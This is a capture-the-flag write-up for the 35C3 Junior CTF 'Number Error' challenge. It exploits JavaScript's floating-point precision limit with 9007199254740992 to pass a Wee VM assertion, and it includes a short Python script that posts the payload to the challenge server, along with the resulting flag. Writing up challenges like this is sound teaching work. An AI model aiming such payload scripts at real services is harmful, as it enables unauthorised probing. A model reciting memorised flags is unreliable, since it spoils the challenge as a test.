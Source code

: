 # 35C3 Junior CTF – Number Error

* **Category:** Misc
* **Points:** 80 (variable)

## Challenge

> The function assert_number(num: number) is merely a debug function for our Wee VM (WeeEm?). It proves additions always work. Just imagine the things that could go wrong if it wouldn't!
>
> http://35.207.189.79/
> 
> Difficulty estimate: Easy - Medium
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

The *Wee* interpreter source code can be found here: `http://35.207.189.79/weelang/weeterpreter.ts`.

The endpoint that can be used to run *Wee* code is the following.

```
http://35.207.189.79/wee/run
```

The assertion that must be exploited is the following.

```Typescript
externals.addFunction(
   "assert_number",
   [{name: "num", type: compiler.NumberType}], compiler.StringType,
   false,
   (num: number) => !isFinite(num) || isNaN(num) || num !== num + 1
       ? "NUMBERS WORK" : flags.NUMBER_ERROR
)
```

The parameter must be a finite number, that is not `NaN` and that is equal to the next one number. The behavior can be [the one that happens](https://stackoverflow.com/questions/307179/what-is-javascripts-highest-integer-value-that-a-number-can-go-to-without-losin) using numbers greater than *MAX_INT*.

For *TypeScript* it is: `9007199254740991`. Using the next one number (i.e. `9007199254740992`) will produce the searched effect.

```
alert(assert_number(9007199254740992))
```

The following Python script can be used to send the payload.

```Python
import requests
import json

url = "http://35.207.189.79/wee/run"
data_structure = """{{ "code": {} }}"""
data_content = """alert(assert_number(9007199254740992))"""

data_content_to_send = json.dumps(data_content)
data_to_send = data_structure.format(data_content_to_send)
print "[*] Payload: '{}'.".format(data_to_send)
response = requests.post(url, data=data_to_send)
print "[*] Response: '{}'.".format(response.text)
```

The flag is the following.

```
35C3_THE_AMOUNT_OF_INPRECISE_EXCEL_SH33TS
```